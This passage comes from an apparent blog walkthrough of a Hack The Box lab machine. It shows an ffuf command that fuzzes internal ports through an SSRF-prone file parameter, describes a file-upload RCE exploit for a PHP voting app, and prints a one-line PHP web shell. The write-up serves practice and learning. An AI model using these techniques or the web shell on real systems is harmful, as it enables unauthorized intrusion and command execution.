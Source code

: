 

```shell
ffuf -w ~/Wordlists/45.06-CustomWordlists/Ports.txt -u $'http://staging.love.htb/beta.php' -X $'POST' -H $'Host: staging.love.htb' -H $'Content-Length: 47' -H $'Cache-Control: max-age=0' -H $'Accept-Language: en-US,en;q=0.9' -H $'Origin: http://staging.love.htb' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://staging.love.htb/beta.php' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' -d $'file=http%3A%2F%2F127.0.0.1%3AFUZZ&read=Scan+file' -x http://127.0.0.1:8080 -fs 61

```

-   I have added the image of the command below as I know sometimes the formatting of my site can lead to the code boxes running off of the page. (will fix, soz bbz)
    -   {{< figure src="/ox-hugo/2024-12-23-144357_.png" >}}

-   **Findings**: I just get a list of all the ports I have already found and nothing additional of note.


#### Accessing the admin panel: {#accessing-the-admin-panel}

-   I use the creds on the admin panel to login
    -   {{< figure src="/ox-hugo/2024-12-23-161451_.png" >}}

-   Looking at the admin panel I can see it's called "Voting System" I do some googling and find the source code here - <https://code-projects.org/voting-system-in-php-with-source-code/>


## 2. Foothold: {#2-dot-foothold}


### Getting RCE on the host &amp; a reverse shell: {#getting-rce-on-the-host-and-a-reverse-shell}

-   I do some searching and find an [SQL vulnerability](https://github.com/h4md153v63n/CVEs/blob/main/Voting_System/Voting_System-SQL_Injection-2.md) that enables the ability to dump the voters database, however if I look at the voters panel on the admin portal there are no registered users. So we could dump it and get an empty `db`.
    -   {{< figure src="/ox-hugo/2024-12-23-165345_.png" >}}

-   Looking further I find this exploit enabling RCE via an authenticated file upload attack.
    -   <https://www.exploit-db.com/exploits/49445>
        -   Looking at the exploit it's apparent that this is just a PHP reverse shell being uploaded as a profile photo for a user.
        -   The script connects, creates a new user and uploads the photo as a reverse shell, it then requests the reverse shell &amp; triggers it.

-   To verify this works I create a simple `php` shell &amp; save it as `shell.php`
    ```php
    <?php system($_GET['cmd']); ?>
    ```
